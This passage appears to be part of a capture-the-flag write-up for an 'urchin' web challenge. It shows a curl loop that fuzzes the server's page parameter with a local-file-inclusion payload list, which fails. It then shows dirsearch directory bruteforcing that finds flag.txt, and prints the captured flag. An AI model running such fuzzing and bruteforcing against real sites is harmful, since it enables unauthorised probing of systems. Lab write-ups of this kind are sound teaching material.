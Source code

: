 ```console
┌──(sup3rm4n㉿digitalwarriors)-[~/…/assets/img/urchin/route2]
└─$ for i in $(cat /usr/share/seclists/Payloads/chaina/lfi/LFI_payloads.txt);do curl http://178.128.46.171:9006/?page=$i%00;done 
```
BUt still nothing worked...


3. Directory bruteforcing

using dirsearch to brute force directory found flag.txt file

<figure>
<img src="/assets/img/urchin/route2/dirb.png" alt="dirb">
<figcaption>directory bruterforcing</figcaption>
</figure>

Then using curl in terminal.

```bash
└─$ curl http://178.128.46.171:9006/flag.txt                    
urchin{RFI_@@@__PPEWWPEWW}
```

**DONE**
<figure>
<img src="/assets/img/urchin/around/vinnie.jpg" alt="vinnie">
<figcaption>Kana flow ee..</figcaption>
</figure>

Contact me:

- [x] Email: petermwemsi@gmail.com
- [x] Twitter: [click here](https://twitter.com/peterChain7)

